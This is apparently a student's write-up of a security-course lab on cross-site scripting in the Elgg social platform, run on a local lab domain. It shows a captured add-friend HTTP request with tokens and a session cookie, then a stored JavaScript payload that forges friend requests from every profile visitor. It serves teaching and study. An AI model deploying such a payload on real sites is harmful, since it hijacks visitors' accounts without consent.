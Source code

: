 
### Task 4:

##### Task 4.1:
In this task, I am trying to carry out an attack that will add Samy as a friend when his profile is view by anyone. First, I did a regular add friend and used burp suite to find the information I need.
```
GET /action/friends/add?friend=59&__elgg_ts=1615407806&__elgg_token=9l5ZkOx6YH-W4EjfXoGmaQ&__elgg_ts=1615407806&__elgg_token=9l5ZkOx6YH-W4EjfXoGmaQ HTTP/1.1
Host: www.xsslabelgg.com
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://www.xsslabelgg.com/profile/samy
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: Elgg=084bm4flu0uc2980g85k5q8s9f
Connection: close
```

In the code, we can see the elgg_token and elgg_ts being found for us. Thus, we need to use the other information to try to make the sendurl as closely as possible. Through the information above, we found the host (www.xsslabelgg.com), the location where the action of adding a friend is located (/action/friends/add), and Samy's guid (59). Then we are just added everything up to form our sendurl. Then I included the JavaScript code in about me in Edit HTML.
```
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          
    var token="&__elgg_token="+elgg.security.token.__elgg_token; 

    var sendurl="http://www.xsslabelgg.com/action/friends/add" + "?friend=59" + token + ts;  

    Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```